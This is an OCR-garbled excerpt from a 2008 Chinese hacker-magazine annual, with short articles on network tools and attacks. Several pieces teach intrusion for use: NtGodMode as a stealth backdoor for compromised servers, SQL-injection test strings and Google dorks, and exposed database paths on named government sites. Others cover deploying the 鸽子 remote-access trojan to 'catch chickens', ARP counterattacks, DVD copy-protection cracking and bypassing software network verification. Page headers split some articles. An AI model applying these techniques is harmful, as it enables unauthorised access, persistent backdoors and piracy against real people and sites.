点击“Decrypt messages”按钮，可以对加密的邮件解密。当然，如果本机中存在多个账户的话，您可以设定EmailObserver监控的账户类型。在“Exclusion list”栏中勾选“Exclude the users listed below from monitoring”项，点击“Add”按钮，在弹出窗口中列出所有可用的账户名称，点击OK按钮可以添加选定的账户。您可以同时添加多个账户，这样，在“Exclusion list”栏中的账户所发出的邮件，不在EmailObserver的监控范围内。在“Hotkey”栏中勾选“Enable hotkey combination”项，表示激活热键功能，在其下可以更改热键（默认为“Ctrl + Shift + Alt + A”），这样当点击该热键时，即可打开EmailObserver管理窗口，如果您采用的是隐藏运行模式，可以使用该热键，对EmailObserver进行配置操作。如何卸载EmailObserver呢？最直接的方法是点击EmailObserver窗口左下角的“Uninstall”按钮，即可将其彻底卸载干净。


图4

有了这个软件为你的邮件保驾护航，相信会大大降低出现在邮件上的安全问题。

（本文所涉及到的EmailObserver已收录到光盘中）

60


## 请看穿你的迅雷

### 丛林

迅雷是中国网民使用非常普及的一款下载软件，以其独特的P2SP（peer to server&peer，用户对服务器和用户）技术使得下载速度大大加快，每个使用迅雷的用户也作为一个服务端把下载过的东西进行共享上传，由于是偷偷上传，用户并不知情，这样就会严重的影响网速。我推荐一款工具DU Meter，它可以实时的查看网络流量，如图1。如果你感觉网速异常，就可以开启DU Meter看看到底下载和上传占了多少网速，如果把所有下载和上传的软件都关闭还是发现有大量的下载和上传速度，十有八九就是中病毒（尤其是上传，可能黑客此时就在窃取你电脑里的机密文件哦）。从上图中可以看出我的上传速度竟然达到70多K，我没开什么电驴、BT之类的下载软件，只有个迅雷是默认开机启动的。关闭迅雷后，发现上传速度立刻接近为0，可以判断是迅雷偷偷上传了。


知道迅雷在偷偷的上传，但要如何关闭呢？有的用户会认为把已经下载的列表清空就不会上传了，其实这个做法是错误的，迅雷不会那么简单的让你识破。迅雷真正的记录文件是windows\system32\cid_store.dat，使用记事本打开，里面虽然有些乱码，但可以看到使用迅雷在本机下载文件的保存路径，如图2，以后别人下载你下过的这些东西，你电脑就会变成服务器的角色偷偷上传，来让别人快速的下载，严重影响了网速，你下载的一些机密东西（例如使用迅雷下载公司内部文档资料）也有可能被人获取（至少迅雷公司都可以轻易获取这些记录）。


知道了是这个文件，那我们就来对付它，不要以为把这个文件删除或者文件属性改成只读就可以万事无忧，下次打开迅雷时依然会给你改过来的。稍微聪明点的读者会想到批处理，使用记事本新建一个BAT扩展名的批处理文件，文件内容是 del c:\windows\system32\cid_store.dat，每次使用完迅雷，运行一下就行了。经小编实验发现还有一种更有效的方法，首先关闭迅雷，删除cid_store.dat这个文件，然后在c:\windows\system32\目录下新建一个cid_store.dat的文件夹。此方法的原理就是在同一个文件夹内，无法共存名字相同的文件和文件夹（这招不仅对迅雷有效，对付一些其它类似的网络工具同样有效，确定了垃圾文件的话，就直接删除再创建一个同名的文件夹即可）。如果你连创建都懒得去做，我再送上一个免疫工具，点一下屏蔽按钮就直接搞定了，原理和刚才说的一样，如图3。

这样迅雷就无法上传不会影响我们的网速了，虽然有违p2p的精神，但是p2p也应该是得到每位用户的许可后才能共享，迅雷这种偷偷摸摸提高下载速度的方法是在欺骗（隐瞒真相也是一种欺骗）其他用户的基础上实现的，其行为实在令人不齿！


（本文所涉及到的Du Meter、屏蔽迅雷自动上传工具已收录到光盘中）

## 另类CC防御

最近很多大型网站都被新型的CC攻击导致瘫痪，于是我想了个比较另类的方法。CC攻击主要是填域名到里面和Cookies，模拟大量代理进行访问该站，造成IIS反应不过来，所以其他用户访问一般显示是“Service Unavailable”。

从域名入手，如果你的网站被CC的话，没有硬件设备是承受不了的。那与其被攻击不如陷害攻击者，登陆到域名的管理地址上，把受攻击的域名转到一些动态域名上，因为这样一来IP就可以快速变换成其他域名。

先在www.3322.org注册一个帐号，在管理域名那里创建一个域名转向（WebHop）。点新建，主机头随便一个就可以，指向地址（URL）就填被攻击的网站地址，主页名称就是该站的名称，使用Frame封装就是隐藏转发的意思，这个要选上（图1）。

然后回到域名的管理地址，把刚刚注册的主机头后面的域名填在CNAME上，比如我text.roothack.cn被攻击那就在CNAME的主机头填写text，目标主机填上刚刚在www.3322.org注册的域名转向（WebHop）主机头（图2）。


这样当别人攻击我的时候，同时也攻击了转向后的网站，如果出什么事那个站长报警的话，那攻击者就要倒霉了。


## 傻瓜黑客 2008合订本上卷

## 轻松掌控软件安装的“特权”

花的神明

在Windows中安装程序，是一件非常简单的事情，只需运行“Setup.exe”等安装程序，按照提示就可顺利的将软件安装到系统中。但是有时出于系统管理和安全性的考虑，可能不希望别人在本机上随意安装各种无关的软件。对于自己精心配置的系统，如果听任别人随意在其中安装各种软件，不仅会将系统搞的凌乱不堪，而且很有可能让恶意程序进入系统兴风作浪。相比之下，使用Install-Block和Stop Installation Tool这两款独特的安全软件，就可以让你牢牢掌控软件的安装“特权”。它们可以在后台自动检测是否执行了软件的安装操作，并自动对其进行屏蔽，只有输入了正确的管理密码，才允许软件安装正常进行。


图1

双击系统托盘中的Install-Block图标，在弹出的登录窗口中输入密码（默认为“abc123”），点击Ok按钮打开Install-Block配置窗口，在“Startup”面板中选择“Load at system start for all users”项，表示让其跟随系统自动运行。在“General”面板中点击“Change Password”按钮（图1），在弹出窗口中如果选择“Config”项，表示更改Install-Block登录密码，如果选择“Unblock”项，表示更改软件安装认证密码。之后点击“Change”按钮，改变对应的密码（图2）。如果是在网络环境中，当其它电脑上的用户试图操作本机上的安装程序时，如何发挥Install-Block的控制作用呢？在“General”面板中点击“Config Access Requests”按钮，在弹出的窗口（图3）中如果选择“Do not enable remote access requests from this computer”项，表示禁止网络上的其它用户操作本机上的安装程序。选择“Enable remote access requests from this computer”项，在其下输入远程机的名称以及对应的网络端口（默认为2029），这样只有该机上的用户可以在本机上运行安装程序。如果选择“This machine will be used by an admin and will accept access requests from others”项，在“Listen on port”栏中设置端口号，这样可以允许所有的网络用户使用本机上的安装程序。在“General”面板中勾选“Enable hotkey for displaying Config”项，在其下可以设置激活热键（默认为“Win + I”），如果勾选“Do not show icon in system tray”项，可以在系统托盘中隐藏Install-Block图标，这样你可以随时点击预设热键，来打开Install-Block配置窗口。


图2


图3

Install-Block是如何判断当前运行的程序是安装程序，并进行拦截的呢？Install-Block其实是按照当前活动窗口的标题进行判断的，在“Block List”（黑名单）面板中列出所有的关键字信息（图4），例如“Install”、“Setup”等字样，只要运行的程序标题栏中包含有上述关键字，Install-Block即可对其进行拦截。当然，你可以根据实际情况添加所需的关键字，来实现更加灵活的拦截操作。点击“Add”按钮，添加所需的关键字（例如“安装”等）即可。此外，Install-Block还可以拦截常见的操作对象，点击“Add From Presets”按钮，在弹出窗口中列出各种系统对象，例如CMD窗口、运行菜单、控制面板、文件夹属性、显示属性窗口、Internet属性、我的文档、我的电脑等对象，从中勾选需要限制的对象（例如“Control Panel”），这样当试图打开控制面板时，Install-Block同样对其进行拦截操作。当然，对于一些无关的程序，你可以使用白名单功能，让其避开Install-Block的监控。在“White List”面板中显示所有的关键字信息（图5），当运行的程序标题栏包含上述关键字时，Install-Block即可让其正常运行，点击“Add”按钮，可以输入所需的关键字，将其添加到白名单中。配置完成后，点击OK按钮保存配置，之后当运行安装程序时，当前标题栏中包含预设的黑名单关键字时，Install-Block即可自动将其屏蔽，同时弹出认证窗口，在其中输入预设的认证密码，才可以继续执行安装操作，否则将自动关闭安装程序。


图4


图5

同Install-Block相比，Stop Installation Tool同样可以让你全面监控软件的安装操作，而且其使用起来更加简单，在Stop Installation Tool主窗口中打开“Program Options”面板（图6），在其中点击“Password”按钮，可以为其设置监控密码，这样当Stop Installation Tool发现安装程序运行时，即可弹出拦截窗口，输入该密码后，才可以正常安装程序。勾选“Minimize to the Tray Bar icon”项，表示让当最小化Stop Installation Tool时，可以让其隐藏在系统托盘中，为了加强Stop Installation Tool运行的隐蔽性，最好取消该项的选择，如果你希望直接屏蔽软件安装操作，最好取消“Show the password window to allow software installation”项的选择状态，这样Stop Installation Tool可以直接禁止安装程序的运行。在“Define the Hot Keys to activate application”栏中可以设置激活热键（默认为“Ctrl + Alt + C”），这样你可以直接点击该热键，打开Stop Installation Tool配置窗口。当Windows中存在多个账户时，Stop Installation Tool可以让你选择哪些账户具有运行安装程序的权限。在“Users”面板中的“PC users”显示本机中的所有可用账户（图7），你可以点击“Remove”按钮，删除选定的账户信息。在“Apply restrictions for users”栏中选择“All PC users”项，表示允许本机上的所有用户运行安装程序，选择“For all except in the list”项，表示只允许上述列表之外的账户运行安装程序。选择“Only for users in the list”项，表示只允许上述列表中的账户运行安装程序。

同Install-Block不同，Stop Installation Tool是根据执行文件的名称来判断其是否为安装程序，进而执行拦截操作的。在“File Masks”面板中显示了常见的安装程序的名称（图8），为了提高监控的准确性，Stop Installation Tool支持文件名通配符，例如“*install*.exe”表示文件名中所有包含“install”字样的可执行文件。当然，你可以自定义所需的文件名称，点击“Add”按钮，在“File Mask”窗口的“File Mask”栏中输入文件的名称，在“Mask Description”栏中输入描述信息，点击OK按钮即可。当配置好Stop Installation Tool后，点击工具栏上的保存按钮，保存配置信息。之后当符合条件的用户执行安装程序时，Stop Installation Tool根据文件的名称判断出是否为安装程序，如果是的话可以弹出拦截窗口，在其中输入预设密码，才可以继续安装操作，否则将直接中止安装操作。在Stop Installation Tool配置窗口的“Program Options”面板中点击“Log File”按钮，可以查看详细的日志信息，从中可以清晰的看到软件安装的记录信息。


（本文所涉及到的Install-Block和Stop Installation Tool已收录到光盘中）

## ARP欺骗攻防

最近局域网老有人搞ARP欺骗，开始我也没怎么在意，但是接连几天都上不了网我才发现问题。我来的时候这里的网管就找我要网卡MAC地址，后来我就可以上了，我想可能是路由限制MAC访问网络。

很早就听说MAC地址可以更改，于是趁能联网的时候下了个MAC地址扫描器（如图1）。随便扫描了下还有4台主机在线，其中192.168.1.1是路由，我们不可以把MAC地址改成和路由一样。后来再断网的时候我就把MAC地址改成能上网的那台。需要说明的是下拉菜单中选择的一定要是网卡，否则改了也没用，不知道哪个是自己网卡的朋友可以去设备管理器中查看。

平静的日子没过几天问题又来了，老是提示IP冲突，我想肯定是谁在攻击我，后来查资料才知道是ARP欺骗中的一种。人们都说360安全卫士的ARP防火墙不错，IP冲突是防住了但是还是连不了网。后来就找了好多ARP防火墙，自己用虚拟机来攻击本机，发现只有金山ARP防火墙和Anti ARP Sniffer可以在攻击的状态下联网，不过网速很慢，我想可能是虚假数据太多造成丢包。由于金山的功能少了就选择了Anti ARP Sniffer。


10℃留言


这个软件的优点是安装了一个协议，大家可以在网络连接→属性中看到（如图2），而其他所谓的防火墙也就是一个驱动文件。好景不长没过几天网络又变成断断续续的，实在是让人无法忍受，本想用ARP Killer来检测是谁在捣鬼，哪知这个程序只能在98/2000下才能正常运行。

网络连接使用下列项目(0):


图2


图3


图4


图5

无意间发现Anti ARP Sniffer有个分析接收到的ARP数据包的功能（如图3），选择后就可以知道是谁在嗅探网络了。原来是IP为192.168.1.33的在捣鬼（如图4）。现在主流ARP欺骗软件有：P2P终结者、网络执法官、聚生网管、网络剪刀手。这些东西不能互相控制，也就是我控制你，你再反过来控制我。用WinARPattacker来还击他吧！扫描的时候记得把反嗅探扫描勾上，这样别人就算在局域网隐藏了自己也可以把他揪出来（如图5）。

这个工具也可以查看是谁在嗅探网络，发了10000个IP冲突怎么没反应啊，估计对方也开了防火墙吧！有防火墙也不怕，下面出我们的绝招，反P2P终结者、反网络执法官、反聚生网管。我用虚拟机测试的结果发现就是反P2P终结者效果最好，运行杀掉P2P终结者，局域网中运行的P2P终结者马上自动关闭了。另两个工具只会报告哪台机器在用这样的软件，最多给运行这样软件的机器发几个IP冲突。有一次逛论坛发现了更好反ARP欺骗的工具——Act ARP（如图6），我最喜欢它的发送干扰这个功能，一旦选择它，对方的监控软件上就会出现N多个主机，主机多了以后监控软件的负荷就更大了，就像有人开玩笑说的一样，用它对方绝对不会撑过10分钟。以前黑客X档案也介绍过ARP攻击，现在用ARP -S绑定已经不行了，因为这些软件可以更改你的本地ARP缓存表，所以最好的办法就是装上ARP防火墙（它的主要功能是保护本地ARP缓存表，发现攻击时主动向网关发送你正确的IP和MAC地址，以便正常通讯）再配合反击工具，疲惫不堪的网络又恢复了往日的平静。


图6

（本文所涉及到的Active ARP、Anti ARP Sniffer、MacAddressChange、WinARPattacker、WinPcap、反P2P终结者、反聚生网管、反网络执法官已收录到光盘中）☑

## Vista的桌面也不安全

Asuka

喜欢Vista的Gadget（侧边栏）吗？是啊，的确很cool很绚。但是就如同越是惹眼的东西就越是要当心，这不，Vista的Gadget就又是个很好的例子。虽然在Vista中已经没有了当年在XP上能够实现的Active Desktop后门，但是新的问题又来了，让我们一起来分析一下。

首先从微软官方网站（http://vista.gallery.microsoft.com/vista/SideBar.aspx?mkt=zh-cn）随意下载一款Gadget工具，这里我以“苹果时钟”这款Gadget为例（图1）。


图1


图4

下载完毕后，我们用Winrar打开源文件app.Gadget，把其中的clock.html先解压出来以便我们编辑（图2）。


图2

用记事本打开clock.html，在body下随便写个框架（图3），这里我以新浪主页为例：

```html
<body scroll="no" onload="loadMain();">
<iframe src="http://www.sina.com.cn/"></iframe>
```

然后再添加到压缩文件，保存文件，接下去双击安装。看一下现在的侧边栏，我们


图3


挂上去的页面就显示出来了（图4），如果换成网页木马的代码呢？所以有些东西在绚丽表面的内部就蕴藏着不安定的因素，切忌要小心。（本文所涉及到的相关Gadget文件已收录到光盘中）

## 自由进出系统的“上帝之门”

txcbg

当你获得了一台计算机的管理员或system权限后，为了以后继续控制这台机子，往往会留个后门。以往留后门大多是想办法获得administrator等帐号的口令，使用gina窃取、sam hash破解、增加管理帐号等，而找管理员密码比较麻烦，还要看你的运气，增加管理帐号容易被发现。前几天在安全焦点发现了一款好用的后门-NtGodMode（我叫它上帝之门），打开上帝模式可以用任意密码登录任意windows系统帐号，从而达到不增加帐号、不破坏被人侵主机系统的情况下登录系统帐号。

在你能实际接触物理到计算机时和只能远程登录计算机时NtGodMode都是不错的后门。假如你能接触到计算机，找机会给它打开上帝模式，以后你就可以不用密码以任意帐户的身份登录计算机了。我以虚拟机里的Windows XP professional为例做演示，我建了一个用户名和密码都是test的管理员用户，正常情况下用test这个用户登录系统当然是需要密码的，如图1。


下面我来运行上帝之门，NtGodMode.exe是在命令行下运行的，命令非常简单，只有NtGodMode.exe ON、NtGodMode.exe OFF两个命令，分别是打开上帝模式和关闭上帝模式。假设我已经把NtGodMode.exe放到了虚拟机的C盘根目录下（可以先通过光盘启动或者U盘启动把文件拷贝到C盘中），在命令行下执行NtGodMode.exe ON，看到“Open God Mode!”的提示后说明上帝模式已经成功打开了（图2）。


注销当前的用户，把鼠标移到test这个用户上不像刚才没打开上帝模式时出现密码提示框了，如图3，单击用户名后直接成功登录系统，图4。返回原用户桌面后执行NtGodMode.exe OFF，关闭上帝模式，test用户就又需要密码才能登录了。


再来说只能远程登录系统情况下的留后门。假如你获得了一台开了终端服务的win 2003的系统权限，就可以用上帝之门留个后门，以后就可以以任意密码登录任意用户的远程桌面了。我这次以虚拟机里的win 2003做演示。我还是建了一个用户名和密码都是test的管理员用户。正常情况下登录远程终端自然是要知道密码的，执行NtGodMode.exe ON后，再来登录3389，用户名写test，密码不写，直接点“确定”后就成功登录了，如图5。


能空密码登录！！！真是太强悍了，要知道win 2003为了安全，默认情况下是不允许空密码登录的。我再换用密码123，test后也登录成功，说明打开上帝模式后可以用任意密码（包括空密码）以系统中任意帐户的身份登录系统。以后拿下服务器后又多了一个留后门的方法，而且这个后门的隐蔽性非常高。管理员还能用它原来的密码登录系统，你又没有新建用户，他自然无从发现。

由于条件限制，我没在windows 2000 server下测试，软件的作者说软件适用的范围为整个windows系统，估计在2000系统下也能正常使用。

这个后门的危害性还是相当大的，管理员用传统的方法根本查不到后门，以后你再要留后门时上帝之门是个非常不错的选择。当然，知道了原理后，防范它的方法也很简单，尝试用错误的密码登录系统，如果能成功登录，很有可能你的机子已经被人开了上帝之门后门，可以下载NtGodMode.exe后执行“NtGodMode.exe OFF”关闭后门。（本文所涉及到的MiniSpy、NtGodMode已收录到光盘中）

> ### 黑客术语小科普
什么是Cookies注入
这是目前非常流行的一种攻击方式，普通的注入攻击很好防范，但把注入语句加到Cookies中提交往往被人忽略。当一套程序后的Cookies没有过滤严实时，就为攻击者打开方便之门，而且还可以无视注入系统。

## Google对常见漏洞的辅助入侵

无敌小龙（张博）

Google Hacking 流行几载，在“日常”渗透入侵生活中（谁丢西红柿了！．．．），我也摸索出一些属于自己的思路，不敢独享，遂有此文！

至于上传，聪明的你应该早已灵光一现。查询关键字：allinurl:upfile.asp。至于利用，还是上传利用还是请出明小子的domain3.5来解决吧。

### 一、数据库的非安全

#### 1. 搜索型注入：

最近大家都挺热衷搜索型注入的（纯注入已经进入了他的白菜纪了！），可是菜们大都反映试手的网站感觉不是很多！其实，这个就要看你搜索漏洞网站的能力了！一般说来，web 程序员在设计搜索页面时，常把这个搜索页的文件命名为 search.asp，这样不仅一目了然，见名知意，而且也方便了 Hacker 们对相关漏洞页面的查询搜索！

关键字：allinurl:search.asp

其他查询方法：intext：搜索（为了提高成功率，可以加入“企业网”之类的，因为企业网，维护性一般较差！）

一般排名靠前的站，安全性都比较高，小菜对这样的站可以飘过！往后翻到10多页，点开一个站！是个绿色食品网，转眼，中国人都世好几千年了。搞外贸经商的人在接受了绿色壁垒的洗礼后，也开始生产绿色食品了！


图 1

在输入框中输入：%' and 1=1 and '%'=' ，正常；输入：%' and 1=2 and '%'=' ，出错。如图1。关于怎么具体利用，大家可以参考上期zero_code 的文章！

#### 2. 数据库：

关于对默认数据库的入侵和渗透，我在X档案的《菜鸟也做网站的猎手》已经详细介绍了，这里为了本文的完整性，就提纲挈领提及一下！

关于查找“洞”网的默认数据库，关键字：allinurl:dvbb7.mdb。

其他程序的数据库的利用方式，大同小异。你可以先到www.chinaz.com这样的站长网站去，下几套web程序，记下他们的数据地址，然后填到搜索引擎中，最后可以用相关检测工具来批量检测——可以提高入侵精准性！

#### 3. 注入：

这是个老话题了，对于ASP 的，关键字：allinurl: asp?id= （你也可以在id参数后面添上一段数据，这样过滤掉大部分有关介绍注入漏洞的文章——笔者就常常搜索出大量的相关介绍文章，而不是搜索出注入点！）

对于PHP的，关键字：allinurl: php?id=x

#### 4. 上传：

### 二、服务器设置不当的网站

#### 1. 爆库：

“有没有搞错，现在还有这个漏洞，我都来玩过！”有的小菜不禁要高呼！其实，这个漏洞还是广泛存在的，对与曾经错过这一两年前的爆库漏洞利用的小菜们，现在可以一展身手了！

最简单的是，查询关键字：allinurl: conn.asp

很容易就找到有爆库漏洞的网站，如图2，图3。


图 2


图 3

看到这样的ASP 代码：

```
db = "../data/test_admin.mdb"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Driver={Microsoft Access Driver (*.mdb)};DBQ=" & Server.MapPath(db)
conn.Open connstr
```

其中“db="../data/test_admin.mdb"”这句代码的意思就是告诉我们：数据库在当前目录的上层，也就是在http://bjds.gov.cn/bjds/internet/jtds/asp/kaoshi/这个目录下，填入http://bjds.gov.cn/bjds/internet/jtds/asp/kaoshi/data/test_admin.mdb，如图4，数据库已经可以被下载了，因为是有gov（政府）网站，

## 2008 合订本 上卷

# 傻瓜黑客


我就不方便继续搞下去了！

#### 2. 列目录：

这个是服务器的权限设置不当引发的，一次我无意看到一个站，http://www.changxing.gov.cn/zc/，如图 5。明显的被列目录了，我分析了一下这个页面的特征字符，发觉 index of 是可以利用的。

来到搜索引擎中，关键字：intitle:index of。类似漏洞的网站全部被暴光在了显示器面前！约有 2,690,000,000 项符合 intitle:index of 的查询结果，晕，够你使用十年了，如图 6！


文章完毕，大家只要细心一点拿下一些网站程序，都会发现自己独有的关键字，轻松找一些 WEBSHELL 肯定没问题的，至于以前的“to the parent”关键字搜索，大家也可以配合使用。5

## 实用的内网上线方法

mutoum

经过一段时间的学习我现在已经可以在内网使用鸽子了上线了。我总结了常见几个内网上线的方法：
1、用鸽子自带的端口映射工具来映射。
2、路由器端口映射。
3、UPNP 端口映射。
4、使用端口映射工具来映射内网 ip 端口到外网 ip 端口上。
5、用动态域名解析映射 IP。

第一种：配置好鸽子后，来生成一个鸽子自带的端口映射工具，然后让外网机器运行一下你刚才生成的映射工具，在自动更新的时候 ip 填那个外网 ip。对没肉鸡的朋友可是挺难的不能总找朋友映射吧！而且病毒这么厉害，都很怕啊！


第二种：大家可以在 cmd 下用 ipconfig 这个命令看一下自己的网关，然后在 IE 里打上网关地址进入路由的管理页面，然后在那里添上你的内网 ip 和你要映射的端口，保存后退出就可以了。可是现在的网吧哪还那么傻瓜 admin 根本上不去，我们学校机房打上网关地址连显示都没有。


第三种：在拿不到路由权限时可以使用 UPNP 端口映射，首先必须路由支持 UPNP 映射，系统还要开 SSDP 服务，常见用比特精灵 UPNP 端口映射工具，我感觉这个也不好用，经常什么都扫不到。

第四种：大家到网上找一个好点的端口映射工具，填写一下自己的内网 ip，然后填一下自己外网 ip（可以到 www.ip138.

16

# 傻瓜黑客

2008 合订本上卷

con 看一下自己的外网 ip) ip 填好后添端口如果自己没改过的话一般鸽子都是 8000，最后呢自动更新一下就可以了。推荐大家用那种用来映射内网建站用的比较好。

第五种：好多网站都提供免费的动态域名注册。一般这种网站都有一个客户端软件，下载后在本机上运行就可以了。鸽子自动映射时候输入这个外网 ip 就可以了，用着较好的感觉有希网 3322。

今天给大家介绍的是内网上线一种新方法。

一、下载后安装 vnn 30-300 很简单，安装完毕后打开 CMD 输入 ipconfig 可看到如图 1 所示的信息。

二、申请一个 FTP 空间。以前用的感觉不怎么好用，www.3326.com 很不错！打开网站后就能看见有 100M 免费空间，支持 ftp 上传，按要求添好就申请成功了，得到帐号信息如图 2。

三、远程木马一个，我用鸽子给大家做演示，都准备好后开始上线操作。

通过鸽子也能看到 IP 变化如图 3 和图 4。打开鸽子后，点自动上线填写 FTP 更新，把刚才申请好的信息填好。都填写完后更新 IP 到 FTP 空间如图 5。成功后配置服务程序，配置信息如图 6，其他选项可随自己喜欢填写，选取保存路径后生成服务端。生成到桌面，双击运行后就等待激动时刻到来吧！稍后鸽子上线了！如图 7。

有两个注意要点，安装完 VNN 后不能登陆，一般是使用过一次后会出现这种情况，提示获取辅助失败等信息如图 8，只要在登陆前更改高级设置下的端口问题就能解决如图 9。在更新 IP 到 FTP 空间时 IP 文件内容项填 10.140.207.38 那个 IP。而且在 IE 输入 http://mutoum.go3.icpcn.com/ip.txt，能显示内容也证明更新成功如图 10。

本人也是菜鸟，学习内网看了很多教程方法非常多内网建设、VIDC 软件、网鹰上线通、网佳百佳信、网络变速器什么的，大部分都不好用，今天推荐的方法也是希望学习内网的朋友更多方法来抓鸡。共同交流，一起进步！

（本文所涉及到的 vnn 已收录到光盘中）


## “图解‘克隆羊’ 盗拷‘防盗圈’之续”

牟晓东

本人曾在 2007 年第 11 期的《黑客 X 档案》上发表《图解‘克隆羊’盗拷‘防盗圈’》一文，然而由于文中所提到的 CloneCD 只能对付 CD（包括音乐、游戏和数据 CD 等），对于时下越来越流行的 DVD 却无法通吃，这不能说不是一个遗憾。今天就向大家再推荐一个 AnyDVD，呵呵，单从名字上大家就能看出它是针对 DVD 的软件，完全可以解密和翻制各种音乐及电影 DVD，就算作是 CloneCD 的一个续吧。

AnyDVD 的安装文件压缩包仅 3.2MB，解压缩后双击其中的 SetupAnyDVD6412 进行安装，最后需要按提示进行一次重启。接着复制 Crack 破解目录中的 AnyDVDtray 程序（狐狸头图标）到刚才的安装目录（如 C:\Program Files\SlySoft\AnyDVD\），覆盖掉原来的 AnyDVDtray 主程序后即可完成破解。AnyDVD 是一种自动在后台解密 DVD 电影的驱动程序，它可以让一张加密 DVD 变成无加密保护和全区码（如图 1），能够随意使用任何 DVD 播放软件来播放任何区域码的电影。另外，AnyDVD 还可以去除不需要的用户禁用操作（像去除强制字幕或者让你跳过版权声明和联邦调查局警告等）。它最大的特色是不需要将数据写入硬盘即可解密，属于一种“随时”解密工作模式。AnyDVD 的适用范围是所有的 DVD 光盘，用它来对付 CSS 加密与 RPC 区域码保护等完全不在话下。

68

## 突破校园网的共享上网限制  风雪夜

简单说一下用 AnyDVD 来复制加密的 DVD 电影的方法：运行 AnyDVD 后，在 Windows 的任务栏中会出现对应的狐狸头图标，右键单击选择其中的“刻录 DVD 影碟到硬盘上”（如图 2）选项后会弹出“AnyDVD 刻录工具”窗口（如图 3），在这儿设置一下自己的目录后就可以单击右下角的“拷贝 DVD”按钮进行 DVD 的复制工作了。（本文所涉及到的 AnyDVD 已收录到光盘中）


事情是这样的，我们学校用的是华为 H3C802.1X 管理软件，如图1，相信不少学校也用的这个管理软件吧，用过的人都知道，这个软件有点太BT了，不但一个帐号绑定一个IP，而且在第一次登陆时自动记录使用者网卡的物理地址，就算换了别的机器就会通不过认证。


昨天我们逗宿舍的同学买了台电脑回来，顺便买了个腾达的路由回来，连好后准备共享上网。简单的设置了下路由，发现了一个问题，路由的WAN居然不支持华为认证，如果支持的话，就可以把我机子上的 MAC 复制克隆到路由上，让路由启动华为认证上网，就可以共享了，可是腾达路由只支持 PPPoE，把从学校拉过来的网线插到路由的 WAN 接口，我机子拉出来的网线接到LAN接口，自己机子IP设成 192.168.0.2，然后登陆路由，在浏览器输入 192.168.0.1，使用默认密码登陆，发现没法使用华为H3C802.1X共享上网了，两人连单机还可以，郁闷中……，可是我们同学喜欢玩一个叫大话西游的网络游戏，没办法，还的继续想。

学校拉给我们的网线是学校华为交换器的局域网网线，好像可以插到 LAN 接口上，那样的话就可以使用电脑认证，而不是路由了。于是我把 IP 改为学校分给我的 IP，网关、DNS 都按学校给的填，如图2。

然后使用华为认证，通过认证可以上网！但是同学的机器还不行。华为不是认证的时候核对 IP 和物理地址嘛，我把同学的机器 TCP/IP 属性填成和我机器一样，然后再修改下他机子的物理地址，在本地连接选项卡中点配置如图3。


然后点高级 Network Address 里填成我的 MAC 地址，如图 4，MAC 地址大家会看吧，在 CMD 中输入 IPCONFIG /ALL 就可以看到了。然后用华为的客户端连接，认证成功，他的也可以上了，不过有一个问题，就是我笨的电脑不可以同时上线。还有一个问题就是路由和学校给的IP不在同一网段，想联机打局域的时候就必须把IP改成 192.168.0.2，他的就得改成 192.168.0.3，那不是特别麻烦么。


于是我又进了路由设置页面，看到了如图5这样的页面。

试着把 IP 地址改为 192.168.129.*，使路由和学校给的 IP 处于同一网段，当然最后一位设成这个网段中空着的 IP，只要不造成 IP 冲突就行，点保存，2 秒后，路由进不去了，然后把机子上的 IP 改为学校给的 IP，图 2 是我的 IP，在 IE 中输入 192.168.129.*进入路由，设置正确，然后退出。点击华为认证，网络连接正常。而打局域只修改他的 IP 就行了。


突然想到在百度找个华为的破解，搜来搜去都是求教的，目前还没有发现有破解方法，路由现在起不到共享的作用，看来只能用双网卡了。在网上找到一个叫泡泡鱼虚拟网卡客户端的软件，设置好以后打开华为，居然通不过认证，在百度一搜才发现有这么一段“华为 3com的一个 802.1x 认证系统上网。端口绑定，一个端口只能使用一个网卡一个主机。平常插双网卡系统都会检测到把我们强制踢下线”郁闷中……

没什么想法在自己的机子上乱翻，在 F 盘看到了这么个软件叫 CCProxy 软件，很显然是代理软件，路由现在和我机子在同一网段，所有可以使用我的机子联网做代理，他的机子不就可以代理上网了，这个软件很好设置，经过简单的设置就开启了代理，然后在他的机子上把 IP 设成 192.168.129.*，（*表示这个网段还没有使用的 IP），首选 DNS 设成我的 IP，也就是 192.168.129.31，剩下的按照图 2 设置。

然后在他机子上测试成功，这样就成功突破华为限制。可以使两台以上的机子同时使用一个帐号上网了！

在 08 年第 5 期不是有篇《如何突破局域网封锁来玩网游》的文章吗，剩下的按照书上的方法代理就可以玩网游了！

我们同学喜欢玩大话，所有我给他用 e-Border 做了个客户端，成功突破校园网的限制。还有什么问题欢迎在论坛讨论，我的 ID 是 LWJQX2。

（本文所涉及到的 CCProxy、e-Border 已收录到光盘中）


## 菜鸟来过网络验证

10℃誓言

现在好多外挂都是网络验证外加猛壳，对付的方法就是爆破或改本地验证。脱壳爆破或者带壳爆破是件相当麻烦的事，我们就选本地验证吧！

我就拿QQ三国助手0311版为例吧！拿到一个程序首先是查壳，PEID显示为NsPack V3.7，北斗的壳用ESP定律就可以脱掉，由于我们只是过网络验证没必要去脱壳。用它提供的免费帐号free登陆下吧！显示免费试用10分钟（如图1）。

下面我们就来截取它向服务器发的数据服务器返回的数据吧！用WPE这个工具，首先我们打开QQ三国助手填好帐号和密码，先别点登陆。打开WPE选目标程序，从下面列出的进程中选择QQ三国的进程打开（如图2）。

然后点目标程序按钮下面的小三角形开始记录。下面你就可以点登陆了，登陆成功后点三角形右边的正方形停止，右边就列出程序的通信情况了。这里只要发送数据就行了，得到如下数据：

```
GET /login.php?username=free&userpass=ea2d6e4f578eb0cfaba23beef76c2194&ver=afsg0311&uid= HTTP/1.1..User-Agent: http://www.baidu.com..Host: crc.afzs.net..Cache-Control: no-cache....
```

Host就是外挂的服务器，/login.php?username=free&userpass=ea2d6e4f578eb0cfaba23beef76c2194&ver=afsg0311&uid=这一长串就是发向服务器的数据，username是用户名，userpass是密码的MD5值，ver是版本号。组合一下就可以得出发向服务器的字符串为http://crc.afzs.net/login.php? username=free&userpass=ea2d6e4f578eb0cfaba23beef76c2194&ver=afsg0311&uid=把这个地址用浏览器打开就可以得到服务器返回的值了，得到如下信息 ## #afei ## #597058f51408a25b990068619e51c41828555 0e6e03ef76e8bb503e0030c42c418a83788b53b8fd120fef0d6ce3e74d8972166b1c07eccdB24a922eb477262ace48e503fef6e0dd9d29802064a8965222ce 登陆成功 免费试用10分钟 73a203e76a9879459acdd754f2026fce4.


